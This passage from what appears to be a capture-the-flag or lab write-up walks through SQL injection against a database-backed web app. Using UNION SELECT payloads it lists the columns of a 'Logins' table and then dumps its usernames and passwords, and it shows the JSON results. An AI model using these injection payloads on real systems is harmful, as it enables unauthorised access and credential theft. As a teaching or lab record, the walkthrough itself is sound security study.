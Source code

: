  "position": "3",

 "src": "5"

 }

\]

This gives us two tables, Colleauges and Logins. Let's look at Logins and find the column names:

&gt; a' UNION SELECT 1,name,3,4,5 FROM syscolumns WHERE id=\(SELECT id FROM sysobjects WHERE name = 'Logins'\)-- -

…

\[

 {

 "email": "4",

 "id": 1,

 "name": "id",

 "position": "3",

 "src": "5"

 },

 {

 "email": "4",

 "id": 1,

 "name": "password",

 "position": "3",

 "src": "5"

 },

 {

 "email": "4",

 "id": 1,

 "name": "username",

 "position": "3",

 "src": "5"

 }

\]

This returns three columns: id, password and username. We can now select all contents of the database:

&gt; a' union select 1,username,password,4,5 from logins-- -
